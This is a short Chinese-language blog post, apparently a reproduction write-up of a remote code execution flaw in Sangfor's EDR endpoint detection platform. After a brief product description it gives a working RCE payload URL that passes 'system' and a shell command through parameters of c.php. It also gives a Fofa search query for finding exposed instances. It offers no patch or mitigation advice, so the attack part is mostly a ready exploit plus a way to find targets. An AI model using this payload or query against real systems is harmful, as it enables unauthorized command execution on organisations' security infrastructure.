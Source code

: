 # 深X服 EDR终端检测系统RCE漏洞复现




#### 简介

深信服终端检测响应平台EDR，围绕终端资产安全生命周期，通过预防、防御、检测、响应赋予终端更为细致的隔离策略、更为精准的查杀能力、更为持续的检测能力、更为快速的处置能力。在应对高级威胁的同时，通过云网端联动协同、威胁情报共享、多层级响应机制，帮助用户快速处置终端安全问题，构建轻量级、智能化、响应快的下一代终端安全系统。



#### EDR的界面

<img src="http://image.xpshuai.cn/rce11.jpg"></img>





#### RCE Payload

```bash
https://xxx.com:xxx/tool/log/c.php?strip_slashes=system&host=id
```

<img src="http://image.xpshuai.cn/rce22.jpg"></img>





#### **Fofa关键字** 

```bash
title="终端检测响应平台"
```



---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/%E6%B7%B1x%E6%9C%8D-edr%E7%BB%88%E7%AB%AF%E6%A3%80%E6%B5%8B%E7%B3%BB%E7%BB%9Frce%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/  

